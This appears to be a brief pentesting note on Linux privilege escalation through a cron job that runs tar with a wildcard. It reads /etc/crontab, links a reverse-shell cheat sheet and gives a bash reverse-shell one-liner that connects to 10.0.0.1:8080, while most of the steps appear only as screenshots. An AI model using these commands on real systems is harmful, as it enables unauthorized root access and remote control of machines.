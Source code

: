 # Detection

```bash
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/96658935/147715175-c186b55f-8203-4db1-a3df-378e09d4af2a.png)


![image](https://user-images.githubusercontent.com/96658935/147715206-ce3daf50-014c-4230-88fd-ff7839ab8b43.png)

From the output, notice the wildcard (*) used by ‘tar’.

# Exploitation

Create a reverse bash script and give it executable permissions
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

[OR]

anytype of reverse shell

![image](https://user-images.githubusercontent.com/96658935/147715530-66a0121b-9e16-4cc2-ac10-84a20ada9329.png)


the you just wait for a shell

![image](https://user-images.githubusercontent.com/96658935/147715541-2448ebe4-696e-4a34-8a62-364e393b7d03.png)


![image](https://user-images.githubusercontent.com/96658935/147715627-6013c054-e32e-48eb-8a46-4bf0bb657fa1.png)

